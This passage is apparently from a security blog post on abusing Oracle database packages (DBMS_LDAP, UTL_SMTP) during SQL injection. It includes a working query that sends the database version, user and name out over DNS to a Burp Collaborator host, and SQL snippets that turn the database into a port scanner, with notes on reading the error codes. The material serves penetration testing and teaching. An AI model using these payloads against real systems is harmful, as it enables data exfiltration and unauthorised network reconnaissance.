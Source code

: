 In any case, let’s take a look at some of the packages that we have discovered and listed above.

**DBMS_LDAP.INIT**

The `DBMS_LDAP` package allows for access of data from LDAP servers. The `init()` function initializes a session with an LDAP server and takes a hostname and port number as an argument.

This function has been documented before to show exfiltration of data over DNS, like below

```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
```
However, given that the function accepts a hostname and a port number as arguments, you can use this to work like a port scanner as well.

Here are a few examples

```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
```
A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` shows that the port is closed while a session value points to the port being open.

**UTL_SMTP**

The `UTL_SMTP` package is designed for sending e-mails over SMTP. The example provided on the [[https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478|Oracle documentation site shows how you can use this package to send an email]]. For us, however, the interesting thing is with the ability to provide a host and port specification.

A crude example is shown below with the `UTL_SMTP.OPEN_CONNECTION` function, with a timeout of 2 seconds

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```
```
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
```
A `ORA-29276: transfer timeout` shows port is open but no SMTP connection was estabilished while a `ORA-29278: SMTP transient error: 421 Service not available` shows that the port is closed.

**UTL_TCP**
